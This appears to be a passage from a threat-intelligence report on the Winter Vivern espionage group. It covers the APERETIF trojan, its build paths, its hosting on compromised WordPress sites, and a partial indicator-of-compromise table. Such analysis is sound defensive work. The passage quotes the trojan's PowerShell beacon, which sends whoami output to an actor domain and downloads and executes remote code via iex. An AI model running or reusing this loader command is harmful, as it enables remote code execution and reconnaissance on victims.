 

f39b260a9209013d9559173f12fbc2bd5332c52a
C:\Users\user_1\source\repos\Aperitivchick\Release\SystemProtector.pdb


a19d46251636fb46a013c7b52361b7340126ab27
C:\Users\user_1\source\repos\Aperitivchick 2\Release\SystemProtector.pdb



APERETIF is a trojan, automating the collection of victim details, maintaining access, and beaconing outbound the actor-controlled domain marakanas[.]com. As with the previous script, the trojan makes use of whomami within PowerShell in its initial activity to beacon outbound for further instructions and/or downloads.
actor-controlled.exe -c "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; 
$a=whoami; 
iex (New-Object Net.WebClient).DownloadString("""hxxps://marakanas[.]com/Kkdn7862Jj6h2oDASGmpqU4Qq4q4.php?idU=$a""")"

APERETIF also uses the signatures.php?id=1 URI through HTTPS GET requests. The group made use of compromised WordPress websites to host the malware, such as with hxxps://applesaltbeauty[.]com/wordpress/wp-includes/widgets/classwp/521734i and hxxps://natply[.]com/wordpress/wp-includes/fonts/ch/097214o serving as the download location for APERETIF during initial attack stages.
Moreover, Winter Vivern employs other intrusion techniques, such as exploiting application vulnerabilities to compromise specific targets or staging servers. An attacker-controlled server was found to host a login page for the Acunetix web application vulnerability scanner, which may serve as a supplementary resource for scanning target networks and potentially used to compromise WordPress sites for malware hosting purposes.
Acunetix Vulnerability Scanner Login
Conclusion
The Winter Vivern cyber threat actor, whose operations of espionage have been discussed in this research, has been able to successfully carry out their attacks using simple yet effective attack techniques and tools. Their ability to lure targets into the attacks, and their targeting of governments and high-value private businesses demonstrate the level of sophistication and strategic intent in their operations. The dynamic set of TTPs and their ability to evade the public eye has made them a formidable force in the cyber domain.
Indicators of Compromise



Type
Indicator


Domain
bugiplaysec[.]com


Domain
marakanas[.]com


Domain
mfa_it_sec@outlook[.]com


Domain
ocs-romastassec[.]com
